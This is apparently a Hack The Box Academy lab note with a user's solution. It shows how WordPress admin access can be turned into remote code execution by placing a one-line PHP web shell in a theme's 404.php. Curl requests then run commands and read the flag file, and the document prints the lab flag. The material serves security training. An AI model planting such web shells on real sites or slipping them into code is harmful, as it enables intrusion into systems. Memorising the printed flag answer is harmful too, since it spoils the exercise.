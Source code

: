 ﻿## Attacking the WordPress Backend

With administrative access to WordPress, we can modify the PHP source code to execute system commands. To perform this attack, log in to WordPress with the administrator credentials, which should redirect us to the admin panel. Click onÂ `Appearance`Â on the side panel and selectÂ `Theme Editor`. This page will allow us to edit the PHP source code directly. We should select an inactive theme in order to avoid corrupting the main theme.

#### Theme Editor

![image](https://academy.hackthebox.com/storage/modules/17/Theme-Editor.png)

We can see that the active theme isÂ `Transportex`Â so an unused theme such asÂ `Twenty Seventeen`Â should be chosen instead.

#### Selecting Theme

![image](https://academy.hackthebox.com/storage/modules/17/Twenty-Seventeen.png)

Choose a theme and click onÂ `Select`. Next, choose a non-critical file such asÂ `404.php`Â to modify and add a web shell.

#### Twenty Seventeen Theme - 404.php

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

The above code should allow us to execute commands via the GET parameterÂ `cmd`. In this example, we modified the source code of theÂ `404.php`Â page and added a new function calledÂ `system()`. This function will allow us to directly execute operating system commands by sending a GET request and appending theÂ `cmd`Â parameter to the end of the URL after a question markÂ `?`Â and specifying an operating system command. The modified URL should look like thisÂ `404.php?cmd=id`.

We can validate that we have achieved RCE by entering the URL into the web browser or issuing theÂ `cURL`Â request below.

#### RCE

```shell-session
smoothment@htb[/htb]$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
<SNIP>
```

# Question
---
![Pasted image 20250220134711.png](../../../../IMAGES/Pasted%20image%2020250220134711.png)

Let's save the file with these contents:

```php
<?php

system($_GET['cmd']);
```

Now, let's edit the theme and upload the shell:

![Pasted image 20250220135856.png](../../../../IMAGES/Pasted%20image%2020250220135856.png)

Once we've edit the `404.php` file, let's save it, and use curl:

```
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)

```


We can now read the contents under `/home/wp-user/flag.txt`:

```
curl -X GET "http://94.237.53.112:46761/wp-content/themes/twentyseventeen/404.php?cmd=cat+/home/wp-user/flag.txt"

HTB{rc3_By_d3s1gn}
```

Flag is:

```
HTB{rc3_By_d3s1gn}
```
